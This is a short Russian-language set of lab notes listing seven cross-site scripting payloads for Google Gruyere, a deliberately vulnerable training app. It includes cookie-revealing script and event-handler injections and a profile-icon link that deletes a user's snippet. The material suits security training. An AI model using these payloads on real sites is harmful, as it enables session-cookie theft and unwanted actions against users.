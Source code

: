 # XSS Payloads for Gruyere

## Payload 1: Reflected XSS через параметр URL
На странице по ссылке `https://example.com/example` можно подставить в параметр `example` следующий пейлоуд:
`<script>alert(document.cookie)</script>`

Это создаст Reflected XSS-инъекцию в элементе `<div id="search-query-param">`, позволяя получить куки пользователя.

---

## Payload 2: Stored XSS в сниппете
При создании нового сниппета можно добавить следующий код:
`<a onmouseover="alert(document.cookie)" href="#">Текст</a>`

Этот пейлоуд вызовет показ куков при наведении на ссылку.

---

## Payload 3: XSS через изменение цвета профиля
При изменении цвета профиля можно указать следующий код:
`black' onmouseover='alert(682)`

Это вызовет предупреждение при наведении на цвет профиля.

---

## Payload 4: XSS через URL и удаление сниппетов
При изменении профиля можно указать ссылку в поле для иконки:
`https://google-gruyere.appspot.com/509870841862400053734264954502968465848/deletesnippet?index=0`

Данная ссылка позволяет удалить сниппет, используя уязвимость в URL.

---

## Payload 5: XSS в приватном сниппете
В поле "Private Snippet" можно вставить HTML-код:
`<img src="x" onerror="alert('XSS')">`

Этот код вызовет предупреждение на странице, активируя XSS-инъекцию.

---

## Payload 6: XSS в изменении иконки профиля
При изменении иконки профиля можно вставить следующий HTML-тег:
`<img src="javascript:alert(document.cookie);">`

Это вызовет сообщение с куками пользователя.

---

## Payload 7: XSS через изменение главной страницы
При указании ссылки на главную страницу в поле профиля можно вставить код:
`<img src="x" onerror="alert(1)">`

Этот код создаст XSS-инъекцию, выводя предупреждение при загрузке страницы.

---
